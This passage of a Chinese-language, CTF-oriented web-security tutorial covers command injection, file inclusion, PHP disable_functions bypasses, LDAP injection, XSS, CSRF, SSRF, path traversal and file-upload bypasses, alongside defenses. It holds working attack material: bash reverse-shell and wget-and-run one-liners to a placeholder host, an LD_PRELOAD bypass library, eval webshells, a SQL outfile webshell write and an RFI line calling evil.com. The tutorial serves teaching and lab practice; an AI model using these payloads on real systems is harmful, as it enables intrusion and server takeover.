**PHP**

```php
?a=system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"');
```

**Python**

```python
?code=__import__('os').system('bash -c "bash -i >& /dev/tcp/10.0.0.1/4444 0>&1"')
```

curl/wget 反弹

先写文件再引用命令。

```php
?a=system('wget 10.0.0.1/shell.sh -O /tmp/x; bash /tmp/x');
```

#####  文件包含（LFI / RFI）与代码注入

文件包含是指后端程序**动态引入一个文件**，并且被引入的文件被当作代码执行。

```php
<?php
$page = $_GET['file'];
include($page . ".php");
?>
```

如果 `$page` **用户**可控，就产生 **文件包含漏洞**。比如：

```http
?file=../../../../etc/passwd
```

**✅ 文件包含（LFI/RFI）是一种特殊的代码注入：代码不在参数中，而在文件中。LFI 读本地文件，RFI 打远程。配合日志、上传、环境变量可拿 Shell。**

##### 绕过 disable_functions 思路（PHP）

> 什么是 disable_functions？

PHP 配置文件 `php.ini` 中有一个选项：

```ini
disable_functions = system, exec, shell_exec, passthru, popen, proc_open, ...
```

禁用了这些函数后，即使有代码注入（比如 `eval($_GET['a'])`），也无法直接执行系统命令。

这是 CTF 中 PHP 高难题的常见障碍。

| 类别              | 方法                                     | 前置条件                | CTF 频率 |
| :---------------- | :--------------------------------------- | :---------------------- | :------- |
| **黑名单绕过**    | 利用未禁用的函数                         | 存在漏网函数            | 低       |
| **命令执行环境**  | `LD_PRELOAD`、`mail` 等                  | 可上传文件、调用 `mail` | 高       |
| **利用 PHP 扩展** | `FFI`、`imap`、`exif` 等扩展             | 扩展已安装且未禁用      | 中       |
| **利用数据库**    | MySQL `select into outfile`              | 有数据库连接写权限      | 中       |
| **环境变量攻击**  | `$_ENV`、`putenv` + 触发外部程序         | 可调用外部程序          | 中       |
| **危险 PHP 函数** | `pcntl_exec`、`imageMagick`、`bash` 漏洞 | 特定版本                | 低       |
| **GC 绕过**       | 垃圾回收触发                             | PHP 特定版本            |          |

**1. 检查漏网函数（最基础）**

```php
system('id');
exec('id');
shell_exec('id');
passthru('id');
popen('id','r');
proc_open('id', [], $pipes);
pcntl_exec('/bin/bash', ['-c', 'id']);
```

**2. `LD_PRELOAD` + `mail`（经典绕过）**

**条件**：可上传 `.so` 文件、`mail` 函数未禁用。

**原理**：`mail()` 函数会调用外部程序 `/usr/sbin/sendmail`，在这个过程中可以劫持系统库函数执行命令。

先写一个 `.c` 文件（比如 `bypass.c`）：

```c
#define _GNU_SOURCE
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>

__attribute__ ((__constructor__)) void preload (void){
    unsetenv("LD_PRELOAD");
    system("id");
}
```

然后编译成 `.so`：

```bash
gcc -shared -fPIC bypass.c -o bypass.so
```

再利用文件上传/写文件，把 `bypass.so` 传到目标服务器。

代码注入执行：

```php
putenv("LD_PRELOAD=/tmp/bypass.so");
mail("a@b.c","","","","");
```

**3. 利用 PHP 扩展（FFI）**

**条件**：`ffi` 扩展已安装且未禁用。

**原理**：PHP 7.4 引入了 `FFI`，可以直接调用 C 库函数。

```php
$ffi = FFI::cdef("int system(const char *command);", "libc.so.6");
$ffi->system("id");
```

**4. 利用数据库写 Webshell**

如果有数据库连接，且权限足够（`file_priv`）：

```sql
select '<?php eval($_POST[cmd]);?>' into outfile '/var/www/html/shell.php';
```

利用代码注入执行这条 SQL。

**5. `pcntl_exec` 绕过**

**条件**：`pcntl` 扩展已安装，且 `pcntl_exec` 未禁用。

```php
pcntl_exec("/bin/bash", ["-c", "id"]);
```

> 注：LDAP 注入在现代 Web 中较少见，本文仅介绍基础原理，进阶利用与企业 AD 域场景将在后续专题中补充。

------

#### 1.4 LDAP 注入

LDAP 注入与 SQL 注入原理类似。当应用程序将用户输入直接拼接到 LDAP 查询语句中时，攻击者可以构造特殊字符改变查询逻辑，从而绕过认证或获取目录信息。

**LDAP 注入与 SQL 注入的对比**

| 特性     | SQL 注入             | LDAP 注入                            |
| :------- | :------------------- | :----------------------------------- |
| 目标     | 关系型数据库         | 目录服务                             |
| 查询语言 | SQL                  | LDAP 过滤条件（RFC 2254 定义的语法） |
| 典型操作 | 增删改查             | 查询为主（认证场景最易利用）         |
| 危害     | 数据窃取、篡改、删库 | 认证绕过、信息泄露（读取目录数据）   |

**LDAP 查询语法**

查询单个用户：

```ldif
(uid=admin)
```

多个条件：

```ldif
(&(uid=admin)(password=123456))
```

表示：

```text
uid=admin AND password=123456
```

常见运算符：

| 符号 | 含义   |
| ---- | ------ |
| &    | AND    |
| \|   | OR     |
| !    | NOT    |
| *    | 通配符 |

例如：

```ldif
(uid=*)
```

表示匹配所有用户。

------

**漏洞形成原因**

存在漏洞的代码：

```java
String filter =
"(&(uid=" + username + ")(password=" + password + "))";
```

正常输入：

```text
admin
123456
```

生成：

```ldif
(&(uid=admin)(password=123456))
```

如果攻击者能够控制 username 或 password，便可能修改整个查询结构。

------

**常见攻击方式**

**通配符注入**

输入：

```text
*
```

生成：

```ldif
(uid=*)
```

匹配所有用户。

------

**条件拼接**

利用 LDAP 的逻辑运算符：

```text
&
|
!
```

构造新的查询条件。

攻击目标通常是：

- 绕过登录认证
- 枚举用户
- 获取目录信息

------

**危害**

**认证绕过**

攻击者无需知道真实密码即可登录系统。

**信息泄露**

获取：

- 用户名
- 邮箱
- 手机号
- 部门信息
- 组织结构

**AD 域信息收集**

在企业环境中可能导致：

- 域用户枚举
- 组织架构泄露
- 权限关系泄露

------

**防御措施**

**输入过滤**

对 LDAP 特殊字符进行转义：

```text
*
(
)
&
|
!
\
```

------

**参数化查询**

避免字符串直接拼接：

```java
(uid={0})
```

通过安全 API 绑定参数。

------

**最小权限原则**

LDAP 服务账号仅授予必要的查询权限。

避免使用管理员权限连接目录服务。

------

**总结**

攻击者通过控制 LDAP 查询条件，达到认证绕过或信息泄露的目的。

其原理与 SQL 注入高度相似，只不过攻击目标从数据库变成了目录服务。

> 注：LDAP 注入在现代 Web 中较少见，本文仅介绍基础原理，进阶利用与企业 AD 域场景将在后续专题中补充。

------

### 第二类：跨端攻击类

#### 2.1 反射型 XSS

反射型 XSS（Reflected Cross-Site Scripting）是一种跨站脚本攻击。

攻击者将恶意脚本构造在请求参数中，当服务器将参数原样返回到网页时，浏览器会执行其中的 JavaScript 代码。

由于恶意代码不会存储在服务器数据库中，而是随着请求被立即返回，因此称为**反射型 XSS**。

------

**漏洞原理**

正常情况下：

```http
GET /search?q=test
```

服务器返回：

```html
搜索结果：test
```

浏览器显示：

```text
搜索结果：test
```

------

如果服务器未对用户输入进行过滤：

```http
GET /search?q=<script>alert(1)</script>
```

返回：

```html
搜索结果：
<script>alert(1)</script>
```

浏览器解析 HTML 时：

```javascript
alert(1)
```

被执行。

------

**攻击流程**

```text
攻击者构造恶意链接
	↓
诱导受害者点击
	↓
服务器返回恶意脚本
	↓
浏览器执行脚本
	↓
攻击成功
```

------

**示例**

攻击链接：

```text
http://example.com/search?q=<script>alert(1)</script>
```

服务器代码：

```php
echo $_GET['q'];
```

返回：

```html
<script>alert(1)</script>
```

浏览器执行后弹出提示框。

------

**常见利用方式**

**获取 Cookie**

攻击者可以读取用户 Cookie：

```javascript
document.cookie
```

若网站未启用 HttpOnly，Cookie 可能被窃取。

------

**会话劫持**

利用获取到的会话标识：

```text
Session ID
Token
```

冒充用户身份访问系统。

------

**页面篡改**

修改网页内容：

```javascript
document.body.innerHTML="Hacked";
```

------

**钓鱼攻击**

伪造登录框：

```text
用户名
密码
```

诱骗用户输入敏感信息。

------

**漏洞特点**

**必须诱导用户访问**

反射型 XSS 通常需要：

```text
攻击者发送恶意链接
    ↓
受害者点击
```

才能触发攻击。

------

**不会长期存在**

恶意代码：

```text
不会写入数据库
不会保存到服务器
```

仅在当前请求中生效。

------

**防御措施**

**输出编码**

将特殊字符转义：

```html
< → &lt;
> → &gt;
```

避免浏览器将其解析为标签。

------

**输入过滤**

过滤危险标签：

```html
<script>
```

以及危险事件：

```html
onload
onclick
onerror
```

------

**使用 HttpOnly**

Cookie 设置：

```http
Set-Cookie: HttpOnly
```

防止 JavaScript 读取 Cookie。

------

**使用 CSP**

内容安全策略（Content Security Policy）：

```http
Content-Security-Policy
```

限制脚本执行来源。

------

反射型 XSS 的核心特征是：恶意脚本来源于用户请求，并被服务器立即返回给浏览器执行，不会长期保存在服务器中。

------

#### 2.2 存储型 XSS

存储型 XSS（Stored XSS）是一种跨站脚本攻击。

攻击者将恶意脚本提交到服务器并保存到数据库、文件或其他存储介质中，当其他用户访问相关页面时，恶意脚本会自动加载并执行。

由于恶意代码会长期保存在服务器中，因此称为**存储型 XSS**。

------

**漏洞原理**

正常流程：

```text
用户发表评论
        ↓
服务器保存内容
        ↓
其他用户查看评论
```

例如：

```html
今天天气不错
```

数据库保存：

```html
今天天气不错
```

页面显示：

```html
今天天气不错
```

------

如果攻击者提交：

```html
<script>alert(1)</script>
```

数据库保存：

```html
<script>alert(1)</script>
```

其他用户访问页面时：

```html
<script>alert(1)</script>
```

会被浏览器解析并执行。

------

**攻击流程**

```text
攻击者提交恶意脚本
	↓
服务器保存脚本
	↓
其他用户访问页面
	↓
浏览器执行脚本
	↓
攻击成功
```

------

**常见攻击位置**

**评论区**

```text
博客评论
论坛回复
文章留言
```

------

**用户资料**

```text
昵称
个人简介
签名
头像描述
```

------

**在线聊天**

```text
聊天室
私信系统
客服系统
```

------

**后台管理系统**

```text
工单系统
日志系统
公告系统
```

------

**示例**

攻击者发表评论：

```html
<script>alert('XSS')</script>
```

数据库保存：

```html
<script>alert('XSS')</script>
```

页面渲染：

```html
<div>
<script>alert('XSS')</script>
</div>
```

浏览器执行：

```javascript
alert("XSS")
```

------

**常见危害**

**窃取 Cookie**

攻击者可以读取：

```javascript
document.cookie
```

获取用户会话信息。

------

**会话劫持**

利用获取的：

```text
Session ID
Token
```

冒充用户身份。

------

**页面篡改**

修改网页内容：

```javascript
document.body.innerHTML="Hacked";
```

------

**钓鱼攻击**

伪造登录界面：

```text
账号
密码
验证码
```

诱骗用户输入敏感信息。

------

**管理员接管**

如果管理员访问受污染页面：

```text
普通用户
    ↓
存储型XSS
    ↓
管理员浏览
    ↓
管理员权限被利用
```

可能导致后台失陷。

------

**漏洞特点**

**长期存在**

恶意代码被存储在：

```text
数据库
文件
缓存
```

中。

只要数据未删除，漏洞持续存在。

------

**自动触发**

用户只需访问页面：

```text
无需点击恶意链接
```

即可触发攻击。

------

**影响范围大**

一条恶意数据可能影响：

```text
一个用户
多个用户
全部用户
管理员
```

因此危害通常高于反射型 XSS。

------

**与反射型 XSS 的区别**

| 特征     | 反射型 XSS   | 存储型 XSS |
| -------- | ------------ | ---------- |
| 是否存储 | 否           | 是         |
| 触发方式 | 点击恶意链接 | 访问页面   |
| 持续时间 | 一次请求     | 长期存在   |
| 影响范围 | 单个目标     | 多个目标   |
| 危害等级 | 中           | 高         |

------

**防御措施**

**输出编码**

对用户输入进行 HTML 转义：

```html
< → &lt;
> → &gt;
```

避免被解析为标签。

------

**输入过滤**

过滤危险内容：

```html
<script>
```

以及：

```html
onload
onclick
onerror
```

等事件属性。

------

**使用 HttpOnly**

设置：

```http
Set-Cookie: HttpOnly
```

防止 JavaScript 获取 Cookie。

------

**使用 CSP**

配置内容安全策略：

```http
Content-Security-Policy
```

限制脚本执行。

------

**总结**

存储型 XSS 的核心特征是：攻击者提交的恶意脚本会被服务器保存，并在其他用户访问页面时自动执行，因此具有持续性和传播性。

------

#### 2.3 DOM 型 XSS

DOM 型 XSS（DOM-Based XSS）是一种跨站脚本攻击。

与反射型 XSS 和存储型 XSS 不同，DOM 型 XSS 的漏洞不发生在服务器端，而是发生在浏览器执行 JavaScript 的过程中。

攻击者通过构造特殊输入，使前端脚本将恶意内容插入页面，最终导致脚本执行。

------

**什么是 DOM？**

DOM（Document Object Model，文档对象模型）是浏览器将 HTML 页面转换后的树状结构。

例如：

```html
<h1>Hello</h1>
```

浏览器会生成：

```text
Document
 └── h1
      └── Hello
```

JavaScript 可以通过 DOM 修改网页内容。

例如：

```javascript
document.body.innerHTML = "Hello";
```

------

**漏洞原理**

假设页面存在代码：

```javascript
var msg = location.hash.substring(1);

document.getElementById("demo").innerHTML = msg;
```

用户访问：

```text
http://example.com/#Hello
```

页面显示：

```html
Hello
```

------

如果访问：

```text
http://example.com/#<script>alert(1)</script>
```

变量：

```javascript
msg
```

内容变成：

```html
<script>alert(1)</script>
```

随后：

```javascript
innerHTML
```

将其插入页面。

浏览器解析后执行：

```javascript
alert(1)
```

攻击成功。

------

**攻击流程**

```text
攻击者构造恶意URL
            ↓
用户访问页面
            ↓
前端JavaScript读取数据
            ↓
写入DOM
            ↓
浏览器执行脚本
```

整个过程无需服务器参与。

------

**常见危险来源**

**URL 参数**

```javascript
location.search
```

例如：

```text
?id=xxx
```

------

**URL Hash**

```javascript
location.hash
```

例如：

```text
#test
```

------

**Cookie**

```javascript
document.cookie
```

------

**LocalStorage**

```javascript
localStorage
```

------

**SessionStorage**

```javascript
sessionStorage
```

------

**常见危险函数**

**innerHTML**

危险：

```javascript
element.innerHTML = userInput;
```

浏览器会解析 HTML。

------

**outerHTML**

危险：

```javascript
element.outerHTML = userInput;
```

------

**document.write**

危险：

```javascript
document.write(userInput);
```

------

**insertAdjacentHTML**

危险：

```javascript
element.insertAdjacentHTML(...)
```

------

**示例**

页面代码：

```javascript
var name =
new URLSearchParams(location.search)
.get("name");

document.body.innerHTML =
"Hello " + name;
```

正常访问：

```text
?name=admin
```

显示：

```html
Hello admin
```

------

攻击访问：

```text
?name=
```

最终：

```html
Hello

```

浏览器执行：

```javascript
alert(1)
```

------

**与其他 XSS 的区别**

| 类型       | 漏洞位置 | 是否经过服务器 |
| ---------- | -------- | -------------- |
| 反射型 XSS | 服务端   | 是             |
| 存储型 XSS | 服务端   | 是             |
| DOM 型 XSS | 浏览器端 | 否             |

------

**漏洞特点**

**服务器可能完全正常**

服务器返回的页面：

```html
<html>
...
</html>
```

本身没有恶意代码。

------

**由前端脚本触发**

问题通常出现在：

```javascript
innerHTML
document.write
outerHTML
```

等危险操作。

------

**不一定出现在响应内容中**

查看网页源代码：

```text
Ctrl + U
```

可能看不到攻击代码。

因为漏洞发生在浏览器运行 JavaScript 之后。

------

**防御措施**

**避免使用 innerHTML**

危险：

```javascript
element.innerHTML = userInput;
```

安全：

```javascript
element.textContent = userInput;
```

------

**使用安全 API**

优先使用：

```javascript
textContent
createTextNode
setAttribute
```

而非直接拼接 HTML。

------

**输入过滤**

对用户输入进行校验和转义。

------

**使用 CSP**

配置：

```http
Content-Security-Policy
```

限制脚本执行。

------

**总结**

DOM 型 XSS 的核心特征是：攻击代码并非由服务器返回，而是由浏览器中的 JavaScript 将用户输入写入 DOM 后触发执行。

------

### 第三类：请求伪造类

#### 3.1 CSRF

CSRF（Cross-Site Request Forgery，跨站请求伪造）是一种利用用户身份进行非法操作的攻击方式。

攻击者诱导已登录用户访问恶意页面，使浏览器在用户不知情的情况下向目标网站发送请求，从而完成转账、修改密码、删除数据等敏感操作。

由于请求携带的是受害者自己的身份信息，因此服务器通常无法区分请求是用户主动发起还是攻击者伪造。

------

**漏洞原理**

假设用户已经登录银行网站：

```http
https://bank.com
```

此时浏览器保存了登录状态：

```text
Session
Cookie
Token
```

------

正常转账请求：

```http
POST /transfer

amount=1000
to=admin
```

服务器验证用户身份后执行转账。

------

攻击者构造恶意页面：

```html
<form action="https://bank.com/transfer" method="POST">
    <input type="hidden" name="amount" value="10000">
    <input type="hidden" name="to" value="attacker">
</form>

<script>
document.forms[0].submit();
</script>
```

------

当受害者访问该页面时：

```text
浏览器自动提交请求
        ↓
自动携带银行Cookie
        ↓
银行认为是用户本人操作
        ↓
执行转账
```

攻击成功。

------

**攻击流程**

```text
受害者登录网站
        ↓
保持登录状态
        ↓
访问攻击者页面
        ↓
浏览器自动发送请求
        ↓
服务器误认为合法操作
        ↓
攻击成功
```

------

**常见攻击场景**

**修改密码**

例如：

```http
POST /change_password

new_password=123456
```

------

**转账操作**

例如：

```http
POST /transfer

money=10000
```

------

**修改邮箱**

例如：

```http
POST /change_email

email=attacker@qq.com
```

------

**删除数据**

例如：

```http
POST /delete_user
```

------

**漏洞特点**

**利用用户身份**

攻击者本身无需登录目标网站。

利用的是：

```text
受害者的登录状态
```

------

**不依赖 XSS**

单独的 CSRF 即可完成攻击。

但如果结合 XSS：

```text
XSS + CSRF
```

危害通常更大。

------

**服务器难以识别**

从服务器角度看：

```text
Cookie正确
Session正确
身份正确
```

请求似乎完全合法。

------

**与 XSS 的区别**

| 项目       | XSS        | CSRF           |
| ---------- | ---------- | -------------- |
| 利用对象   | 浏览器脚本 | 用户身份       |
| 攻击目标   | 用户       | 网站功能       |
| 是否执行JS | 通常需要   | 不一定         |
| 核心问题   | 输入未过滤 | 请求来源未验证 |

------

**典型示例**

攻击页面：

```html

```

当受害者访问页面：

```text
浏览器自动加载图片
        ↓
发送请求
        ↓
删除数据
```

即使图片不存在，攻击也可能已经完成。

------

**防御措施**

**CSRF Token**

最常见方案。

服务器生成随机 Token：

```html
<input type="hidden"
name="csrf_token"
value="abc123">
```

提交时必须携带。

服务器验证：

```text
Token正确 → 允许操作

Token错误 → 拒绝操作
```

------

**SameSite Cookie**

设置：

```http
Set-Cookie:
SameSite=Strict
```

或：

```http
Set-Cookie:
SameSite=Lax
```

限制跨站请求携带 Cookie。

------

**验证 Referer**

检查请求来源：

```http
Referer
Origin
```

是否来自本站。

------

**二次确认**

重要操作增加：

```text
输入密码
短信验证
验证码
```

降低攻击成功率。

------

**总结**

CSRF 的核心思想是：攻击者无法伪造用户身份，但可以诱导浏览器利用用户已经登录的身份向目标网站发送请求，从而完成未授权操作。

------

#### 3.2 SSRF

**漏洞简介**

SSRF（Server-Side Request Forgery，服务器端请求伪造）是一种请求伪造漏洞。

攻击者通过操控服务器发起请求，使服务器访问原本无法直接访问的资源，例如内网服务、本地服务或云平台元数据接口。

简单来说：

```text
攻击者不能访问
        ↓
诱导服务器访问
        ↓
服务器返回结果
```

因此 SSRF 经常被称为：

```text
内网探测利器
```

------

**漏洞原理**

许多网站提供从 URL 获取资源的功能。

例如：

```text
图片抓取
网页预览
文件下载
API代理
```

用户提交：

```text
https://example.com/image.jpg
```

服务器：

```text
接收URL
      ↓
请求目标地址
      ↓
返回结果
```

这是正常流程。

------

如果服务器没有验证用户提供的 URL：

```text
http://127.0.0.1
```

或者：

```text
http://192.168.1.100
```

服务器便会主动访问这些地址。

这就形成了 SSRF。

------

**攻击流程**

```text
攻击者提交恶意URL
            ↓
服务器请求目标地址
            ↓
获取响应内容
            ↓
攻击者获得结果
```

------

**常见漏洞场景**

**图片下载**

例如：

```text
输入图片链接
服务器自动下载图片
```

------

**文件导入**

例如：

```text
导入远程配置文件
导入远程数据
```

------

**网页预览**

例如：

```text
输入网页地址
自动生成预览截图
```

------

**第三方接口调用**

例如：

```text
代理请求
接口转发
```

------

**常见攻击目标**

**本地服务**

```text
127.0.0.1
localhost
```

例如：

```text
Redis
Docker
Jenkins
Elasticsearch
```

------

**内网主机**

例如：

```text
192.168.x.x

10.x.x.x

172.16.x.x
```

攻击者原本无法访问这些地址。

但服务器通常可以。

------

**云平台元数据接口**

例如：

```text
169.254.169.254
```

部分云服务商会提供：

```text
实例信息
访问密钥
配置数据
```

若未做好防护，可能造成严重信息泄露。

------

**常见危害**

**内网探测**

扫描：

```text
开放端口
运行服务
系统信息
```

例如：

```text
80
443
6379
8080
```

------

**访问本地服务**

例如：

```text
Redis
Docker API
Jenkins
```

获取敏感信息甚至执行危险操作。

------

**绕过访问限制**

原本只能本机访问：

```text
127.0.0.1
```

通过 SSRF 间接访问。

------

**获取敏感信息**

读取：

```text
配置文件
身份凭据
云平台密钥
```

------

**配合其他漏洞攻击**

例如：

```text
SSRF
 ↓
发现Redis
 ↓
Redis未授权访问
 ↓
获取服务器权限
```

------

**与 CSRF 的区别**

| 项目       | CSRF       | SSRF               |
| ---------- | ---------- | ------------------ |
| 请求发起者 | 浏览器     | 服务器             |
| 利用对象   | 用户身份   | 服务器权限         |
| 攻击目标   | 网站功能   | 内网资源           |
| 常见结果   | 转账、改密 | 内网探测、信息泄露 |

------

**漏洞示例**

存在漏洞：

```php
$url = $_GET['url'];

echo file_get_contents($url);
```

正常访问：

```text
?url=https://example.com
```

服务器获取网页内容。

------

攻击访问：

```text
?url=http://127.0.0.1:8080
```

服务器访问本机服务。

------

进一步：

```text
?url=http://192.168.1.100
```

服务器访问内网主机。

------

**防御措施**

**白名单机制**

只允许访问可信域名：

```text
example.com
api.example.com
```

禁止用户任意指定地址。

------

**禁止访问内网地址**

过滤：

```text
127.0.0.1
localhost
10.x.x.x
172.16.x.x
192.168.x.x
```

以及：

```text
169.254.169.254
```

等特殊地址。

------

**限制协议类型**

仅允许：

```text
http
https
```

禁止：

```text
file
ftp
gopher
dict
```

等危险协议。

------

**网络隔离**

服务器尽量避免直接访问核心内网系统。

------

**最小权限原则**

应用服务器仅开放必要网络访问权限。

------

**总结**

SSRF 的核心思想是：攻击者无法直接访问目标资源，于是利用服务器代替自己发起请求，从而突破网络边界和访问限制。

------

### 第四类：文件类

#### 4.1 路径遍历

在 Linux 中，`.` 代表当前目录；`..` 代表上一级目录。所以：

```http
https://localhost/download.php?path=../../flag.php
```

就有可能把敏感数据泄露出来。

例如：

网站根目录是 `/var/www/html/images`，然后输入

```http
http://localhost/../../../../
```

不断向上返回父目录，4 个 `../` 就会返回到根目录 `/` 下了。

相较于 SQL 注入和命令注入，路径遍历前期信息收集较少。很多时候发现参数后就直接开始尝试：

```text
?page=
?file=
?path=
?download=
?template=
?img=
```

非特殊情况下就是发现 `url` 可能有漏洞就直接对路径进行渗透试探。

##### 开发者参数名

开发者参数名就是程序员在写代码时，给 URL 参数起的**名字**。

因为这个名字**不是标准规定**的，是开发者自己起的。它反映了开发者的思维和代码逻辑。

比如：`?file=xxx` 里的 `file`，`?id=123` 里的 `id`，`?page=home` 里的 `page`。

| 参数名示例      | 很可能的功能 | 开发者在想什么                    |
| :-------------- | :----------- | :-------------------------------- |
| `?file=xxx`     | 读取文件     | “用户要看哪个文件”                |
| `?page=xxx`     | 包含页面     | “用户要看哪个页面”                |
| `?id=xxx`       | 查询数据     | “要查哪个ID的数据”                |
| `?url=xxx`      | 请求外部地址 | “用户提供的URL，我帮用户请求一下” |
| `?cmd=xxx`      | 执行命令     | “用户要执行什么命令”              |
| `?path=xxx`     | 路径操作     | “文件或目录路径”                  |
| `?redirect=xxx` | 跳转         | “用户登录后跳转到哪里”            |

看到参数名，大概就能猜到这个功能可能对应什么漏洞。

| 参数名                          | 可能存在的漏洞         | 测试方法                            |
| :------------------------------ | :--------------------- | :---------------------------------- |
| `file`、`path`、`dir`、`folder` | 路径遍历、文件包含     | `../../etc/passwd`                  |
| `page`、`view`、`load`          | 文件包含               | `?page=../../../../etc/passwd`      |
| `url`、`link`、`href`           | SSRF（服务端请求伪造） | `?url=http://127.0.0.1/admin`       |
| `redirect`、`return`、`next`    | 开放重定向             | `?redirect=https://evil.com`        |
| `id`、`uid`、`cid`              | SQL注入、越权          | `?id=1' OR '1'='1`                  |
| `search`、`q`、`query`          | SQL注入、XSS           | `?search=<script>alert(1)</script>` |
| `callback`、`jsonp`             | XSS、信息泄露          | `?callback=alert(1)`                |
| `cmd`、`exec`、`command`        | 命令注入               | `?cmd=; whoami`                     |
| `host`、`ip`、`domain`          | 命令注入、SSRF         | `?host=127.0.0.1; whoami`           |
| `upload`、`file`（POST）        | 文件上传               | 上传 webshell                       |
| `lang`、`locale`                | 本地文件包含           | `?lang=../../../../etc/passwd`      |
| `template`、`theme`             | 模板注入（SSTI）       | `{{7*7}}`                           |

这些名字都是开发者起名的“习惯性规律”

网页基本上都会对 `../` 进行过滤，这时候就要学会绕过。而文件类漏洞最主要的就是绕过技巧。

##### 绕过

URL编码

```text
%2e%2e%2f
```

双重编码

```text
%252e%252e%252f
```

双写（只删第一次 `../`，剩下那部分自然拼成了 `../`）

```text
....//
```

双写斜杠

```text
..//
```

转义斜杠

```text
..\/
```

Windows 路径

```text
..\			URL编码 %2e%2f
```

绝对路径

```http
?file=/etc/passwd
?file=C:/Windows/win.ini
```

文件后缀（老 PHP）

```http
?file=../../../../etc/passwd%00.jpg
```

`%00` 截断后面的 `.jpg`。

##### 防御

**核心原则：永远不要把用户输入直接拼接到文件路径中。**（以下以 PHP 代码为例）

**方案 1：ID 映射**

```php
// 不这样做
$file = $_GET['file'];
readfile("./uploads/" . $file);

// 这样做
$id = (int)$_GET['id'];
$map = [
    1 => 'doc1.pdf',
    2 => 'doc2.pdf',
    3 => 'guide.docx',
];
if (!isset($map[$id])) {
    die('文件不存在');
}
readfile("./uploads/" . $map[$id]);
```

**方案 2：白名单**

```php
$allowed = ['a.jpg', 'b.png', 'c.pdf'];
if (!in_array($_GET['file'], $allowed)) {
    die('非法文件');
}
readfile("./uploads/" . $_GET['file']);
```

**方案 3：路径规范化 + 前缀检查**

```php
$base = "/var/www/html/uploads/";
$user_path = $_GET['file'];

// 规范化路径（解析 `..`，移除多余的 `/`）
$real_path = realpath($base . $user_path);

// 检查是否在允许目录内
if ($real_path === false || strpos($real_path, $base) !== 0) {
    die('非法路径');
}
readfile($real_path);
```

------

#### 4.2 文件包含

与路径遍历的文件读取不同，文件包含即既可以读取文件内容，还可以执行文件内容。

PHP 有个东西：`include("home.php");` —— 把 `home.php` 内容拿过来执行

开发者为了动态切换页面：

```php
<?php
include($_GET['page']);
?>
```

正常输入

```http
?page=home.php
```

攻击者输入

```http
?page=admin.php
```

再进一步：

```http
?page=../../../../etc/passwd
```

这时候就变成了 **LFI（本地文件包含）**。其实 LFI 的读取文件看起来和路径遍历一样。

PHP早期允许：

```php
include("http://evil.com/shell.php");
```

也就是说，攻击者可以直接 `?page=http://evil.com/shell.php` 而导致服务器被沦陷。（服务器下载远程 PHP 并执行恶意代码）

如今的CTF对这种 **RFI（远程文件包含）**老环境还是有的。

| 漏洞              | 本质               |
| ----------------- | ------------------ |
| 路径遍历          | 访问不该访问的文件 |
| 任意文件读取      | 读取任意文件       |
| 本地文件包含(LFI) | 包含并解析本地文件 |
| 远程文件包含(RFI) | 包含并执行远程文件 |

*其实 文件包含 真正有含金量的是 日志包含、Session包含、上传文件包含、伪协议利用。但是这些东西属于是 LFI 提权了，以后再研究吧。*

------

#### 4.3 文件上传

文件上传是Web安全领域最经典的漏洞之一。它是从 web 漏洞到内网的必经之路。

攻击者通常通过上传脚本文件、木马文件或伪装文件，获取服务器权限。

##### 信息收集

由于许多网站都提供：头像上传、附件上传、图片上传、文件导入等上传类操作。因此文件上传漏洞具有较高的普遍性。

##### upload-labs

配合靶场：upload-labs

相关工具：

- 抓包工具：burpsuite

- WebShell 工具：蚁剑（最适合练手）、菜刀（最轻量）、哥斯拉（重型武器）、冰蝎系列

- 16 进制修改器：010 Editor（制作图片马）

*由于 upload-labs 靶场有不同版本，所以这里按顺序写但不标题目。注意辨别。*

```php
<?php @eval($_POST['cmd']); ?>
```

**前端 JS 校验**

**现象**：只允许上传 `.jpg`、`.png`、`.gif`，选 `.php` 就弹窗拦截。

**原理**：前端 JS 检查文件扩展名，服务端没校验。

**绕过**：

- 禁用浏览器 JS（F12 → 设置 → 禁用 JavaScript）
- 删除前端校验代码（没直接禁用快）
- 改包：Burp 拦截，把 `shell.php` 改成 `shell.jpg`，上传后改回 `.php`

**结论**：前端校验等于没校验。

------

**MIME 校验**

**现象**：上传 `.php` 报错，改扩展名为 `.jpg` 也不行。

**原理**：后端检查 `Content-Type` 必须是 `image/jpeg`、`image/png`、`image/gif`。

**绕过**：Burp 拦截请求，把 `Content-Type: application/x-php` 改成 `Content-Type: image/jpeg`。

------

**黑名单（不完整）**

**现象**：禁止 `.asp`、`.aspx`、`.php`、`.jsp` 等。

**原理**：黑名单不完整，漏了 `.phtml`、`.php3`、`.php5`、`.inc` 等。

**绕过**：上传 `shell.phtml`。

------

**黑名单（.htaccess）**

**现象**：禁止几乎所有可执行扩展名，包括 `.phtml`、`.php5` 等。

**原理**：黑名单很全，但允许上传 `.htaccess`。

**绕过**：

  1\. 先上传 `.htaccess`，内容：

   ```htaccess
   AddType application/x-httpd-php .jpg
   ```

  2\. 再上传 `shell.jpg`（内容为 PHP 代码）

  3\. 访问 `shell.jpg`，Apache 会当成 PHP 执行

**前置条件**：Apache + `AllowOverride All`

------

**黑名单（.user.ini）**

**现象**：禁止几乎所有可执行扩展名，包括 `.phtml`、`.php5` 等。

**原理**：黑名单很全，但允许上传 `.user.ini`。

**绕过**：

  1\. 先上传 `.user.ini`，内容：

   ```ini
auto_prepend_file=shell.jpg
   ```

  2\. 再上传 `shell.jpg`（内容为 PHP 代码）

  3\. 访问 `shell.jpg`，Nginx 会当成 PHP 执行

**前置条件**：Nginx + PHP-FPM

------

**大小写绕过**

**现象**：黑名单有 `.php`，但没有 `.Php`、`.pHp`。

**原理**：黑名单只检查小写，没做大小写归一化。

**绕过**：上传 `.Php` 或 `.pHP`。

------

**点绕过**

**现象**：黑名单有 `.php`。

**原理**：后端只去掉了首尾空格，没去掉点。

**绕过**：文件名改成 `shell.php.`。

------

**`::$DATA` 绕过（Windows）**

**现象**：黑名单有 `.php`。

**原理**：Windows NTFS 特有，`文件名.php::$DATA` 会绕过扩展名检查，写文件时 `::$DATA` 被忽略，实际存为 `文件名.php`。

**绕过**：上传 `shell.php::$DATA`。

------

**点 + 空格 + 点绕过**

**现象**：黑名单有 `.php`。

**原理**：后端做了多次处理但顺序有漏洞，最终文件名为 `shell.php. .`（点空格点），Windows 解析时变成 `.php`。

**绕过**：文件名改成 `shell.php. .`。

------

**双写绕过**

**现象**：黑名单有 `.php`，后端把 `.php` 替换成空。

**原理**：`str_replace('.php', '', $filename)`，只替换一次。

